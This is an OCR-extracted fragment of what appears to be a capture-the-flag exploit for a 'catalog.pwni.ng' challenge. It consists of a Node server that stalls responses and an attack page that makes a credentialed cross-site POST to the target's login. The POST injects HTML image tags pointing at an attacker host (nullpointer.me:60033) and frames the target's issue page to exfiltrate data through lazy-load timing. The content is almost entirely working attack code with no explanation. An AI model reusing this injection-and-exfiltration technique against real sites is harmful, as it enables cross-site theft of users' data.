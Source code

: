 ```
    let timer = setInterval(async () => {
        if (unlock) {
            res.send("fragment");
            clearInterval(timer);
        }
    }, 1);
});

app.listen(60033);
console.log("Server running on port: " + 60033);
```

index.html

```
<html>
    <head>
        <title>Psst! Get out of here...</title>
        <script>
            const next = async () => {
                let res  = await fetch("/status");
                let status = await res.text();
                if (status === "true") {
                    await fetch("http://catalog.pwni.ng/user.php", {
                        "headers": {
                            "content-type": "application/x-www-form-urlencoded",
                        },
                        "body": `username="/><img src="http://nullpointer.me:60033/injection"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><div align="left"><img src="http://nullpointer.me:60033/exfiltrated" loading="lazy"></div><em>&password=1&action=login`,
                        "method": "POST",
                        "mode": "no-cors",
                        "credentials": "include"
                    });
                    await fetch("/unlock");
                } else {
                    next();
                }
            }
            next();
        </script>
    </head>
    <body>
        <iframe src="http://catalog.pwni.ng/issue.php?id=5" style="position: absolute; width: 400%; height: 500px; border: 0"></iframe>
    </body>
</html>
```
